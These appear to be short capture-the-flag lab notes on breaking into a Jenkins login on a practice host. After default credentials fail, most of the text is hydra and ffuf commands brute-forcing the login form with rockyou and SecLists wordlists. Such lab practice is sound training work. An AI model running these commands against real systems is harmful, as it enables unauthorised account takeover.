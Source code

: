 
The default user credentials are admin and password.
https://docs.redhat.com/en/documentation/openshift_container_platform/3.3/html/using_images/other-images#initializing-jenkins

This does not work. None of the other passwords on account we have work.

```sh
hydra -V -l admin -P /usr/share/wordlists/rockyou.txt internal.thm http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```
I don't think this works

```sh
ffuf -request request -request-proto http -w /usr/share/wordlists/SecLists/Passwords/xato-net-10-million-passwords-10000.txt
```

```sh
ffuf -s -w /usr/share/wordlists/rockyou.txt:PASS -u http://localhost:9000/j_acegi_security_check -d "username=admin&password=PASS" -H "Content-Type: application/x-www-form-urlencoded" -fr "Invalid username or password"
```

```sh
hydra -V -l admin -P /usr/share/wordlists/rockyou.txt localhost:9000 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:loginError"
```

got it with burp but test more

